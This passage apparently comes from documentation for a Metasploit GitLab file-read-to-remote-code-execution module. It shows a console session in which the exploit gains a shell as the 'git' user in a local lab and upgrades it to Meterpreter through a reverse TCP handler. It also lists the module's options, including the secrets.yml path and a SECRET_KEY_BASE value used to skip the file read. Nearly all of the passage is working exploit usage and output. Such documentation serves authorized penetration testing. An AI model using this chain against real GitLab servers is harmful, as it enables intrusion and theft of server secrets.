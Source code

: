 ```
[*] Attempting to delete project /test/5W350yP1
[*] Deleted project /test/5W350yP1

whoami
git
^Z
Background session 23? [y/N]  y
msf6 exploit(multi/http/gitlab_file_read_rce) > sessions -u 23
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [23]

[!] SESSION may not be compatible with this module.
[*] Upgrading session ID: 23
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 172.17.0.1:4433
[*] Sending stage (976712 bytes) to 172.17.0.2
[*] Meterpreter session 24 opened (172.17.0.1:4433 -> 172.17.0.2:45442) at 2020-11-21 21:34:34 -0500
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(multi/http/gitlab_file_read_rce) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                                     Connection
  --  ----  ----                   -----------                                                     ----------
  23        shell ruby/ruby                                                                        172.17.0.1:4444 -> 172.17.0.2:34058 (127.0.0.1)
  24        meterpreter x86/linux  git @ 622b6a4c6722 (uid=998, gid=998, euid=998, egid=998) @ 17  172.17.0.1:4433 -> 172.17.0.2:45442 (172.17.0.2)
                                   2.17.0.2

msf6 exploit(multi/http/gitlab_file_read_rce) >
```

### Specifying SECRET_KEY_BASE to RCE

```
msf6 exploit(multi/http/gitlab_file_read_rce) > options

Module options (exploit/multi/http/gitlab_file_read_rce):

   Name             Current Setting                            Required  Description
   ----             ---------------                            --------  -----------
   DEPTH            15                                         yes       Define the max traversal depth
   PASSWORD                                                    no        The password for the specified username
   Proxies                                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS           127.0.0.1                                  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:
                                                                         <path>'
   RPORT            80                                         yes       The target port (TCP)
   SECRETS_PATH     /opt/gitlab/embedded/service/gitlab-rails  yes       The path to the secrets.yml file
                    /config/secrets.yml
   SECRET_KEY_BASE  301ee96a664dc634b8766368d26b4ef4deb46c593  no        The known secret_key_base from the secrets.yml - this skips the arbitrary f
                    490dc1f39526e0f278f2dfcb9f5c9bb13c74b5377            ile read if present
                    848259a533c9ad137885c01a4387deb799e14589a
                    6fbac
```
